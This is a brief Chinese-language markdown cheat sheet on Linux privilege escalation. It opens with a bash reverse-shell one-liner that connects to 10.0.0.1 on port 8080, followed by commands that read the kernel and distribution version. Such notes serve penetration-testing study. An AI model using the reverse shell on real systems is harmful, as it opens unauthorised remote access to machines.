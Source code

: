 ### GUN Linux 提权笔记

#####     1.1 Shell反弹
``` sh
$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
##### 查看系统版本

``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```
